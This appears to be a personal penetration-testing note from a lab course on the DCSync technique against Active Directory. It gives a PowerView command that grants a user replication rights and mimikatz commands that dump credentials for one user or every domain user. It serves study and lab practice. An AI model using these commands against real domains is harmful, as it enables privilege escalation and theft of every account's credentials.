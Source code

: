 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#mimikatz 
- DC Sync requires only two rights on the domain object.
	- Replicating Directory Changes
	- Replicating Directory Changes All
	- Replicating Directory Changes in Filtered Set (Optional maybe)
- Changes to the ACL of the `domain object` will be logged.

## Replication Rights
We can give our user replication rights, using `powerview.ps1`
```powershell
. .\powerview.ps1
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity studentx -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
### Mimikatz
- Requires "Domain Admins" privs.
```powershell
# Dump credentails for a single user
lsadump::dcsync /domain:mydomain.local /user:<username>

# Dump credentials of all the domain user
log myfile.txt
lsadump::dcsync /domain:mydomain.local /all
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
